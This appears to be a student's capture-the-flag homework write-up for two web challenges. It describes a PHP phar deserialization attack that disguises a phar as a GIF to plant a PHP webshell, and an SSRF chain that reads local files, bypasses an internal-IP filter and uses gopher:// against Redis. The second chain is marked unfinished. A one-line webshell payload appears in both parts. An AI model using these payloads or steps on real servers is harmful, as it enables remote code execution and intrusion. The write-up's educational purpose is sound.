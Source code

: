 # HW0x05 writeup

## Rero Meme
> FLAG{レロレロ?RERO!レロレロ,RERO?レロレロ~}

1. observe the problem
   - *4 functions* that are able to trigger **phar deserialization vulnerability**
     - `file_get_contents` in <u>index.php</u>
     - `is_dir, mkdir` in <u>lib.php</u>, `class User`
     - `file_put_contents` in <u>lib.php</u>, `class Meme`
   - In order too trigger such vulnerability, the parameter need to be under control.
   - Therefore, only `is_dir, mkdir` can be controlled using *username* with initial, `phar://`.
2. restriction for uploading files
   - In `index.php`, the uploaded file is required to be *GIF* to continue.
3. construct *.phar* file
   - bypass filetype check
     - since *phar* only require that it ended with `__HALT_COMPILER(); ?>`, use magic header, `GIF89a`, to bypass.
   - ***webshell***
     - magic function, `__destruct`, will be called when deserialize
     - make use of `file_put_contents($this->filename, $this->content);` to put a **php webshell** to the file.
     - Therefore, new a `Meme` with content, `"<?php eval(system(\$_GET['cmd']));?>"`, and change its `$this->filename` after construction.
4. generate the *phar* file and change its extension to *.gif*
5. upload the *gif* with `$username` and `$title`
6. clear cookies and login with another username, `phar://$username/$title.gif`
7. use the created web shell to get the flag with `cmd=cat /flag_b3I10KyNv9`

## 陸拾肆基底編碼之遠端圖像編碼器

1. use post request to `http://base64image.splitline.tw:8894/?page=result` with `url=file://{filename}` to get the content of files
   - the content of the file will be placed in the *img tag* with base 64 encoded
2. get important *src code*
   - `index.php`, `url=file:///var/www/html/index.php`
     - **Hint**: find the other service on *this* server
   - `result.inc.php`, `url=file:///var/www/html/page/result.inc.php`
     - check if `url` contain `['192', '172', '10', '127']` -> Internal IP being banned
3. find other service
   - unable to read `/etc/services`
   - read `/proc/net/tcp`
      ```
        sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
        0: 0B00007F:91BB 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 17395422 1 00000000e620e9ee 99 0 0 10 0                   
        1: 0100007F:69FE 00000000:0000 0A 00000000:00000000 00:00000000 00000000   101        0 17459576 1 00000000caa428d1 99 0 0 10 0
        ......
      ```
      parse and get
      ```
        127.0.0.11  37307	0.0.0.0	0
        127.0.0.1   27134	0.0.0.0	0
        ......
      ```
      Find service at port `27134` and, instead of `127.0.0.1`, use `0.0.0.0` to access.
4. `url=http://0.0.0.0:27134`
   - receive response, `- ERR wrong number of arguments for 'get' command`
   - google and find that it is **Redis Service**
5. use `gopher://` to communicate and write a **phpshell**
   - attempt to write **phpshell** under `/var/www/html`, but found that not enough authority
   - try all the folders under `/`, and find that we can write file under `/tmp`
   - **NOT completed** write `"<?php eval(system(\$_GET['cmd']));?>"` to file under `/tmp`
6. use the created web shell to get the flag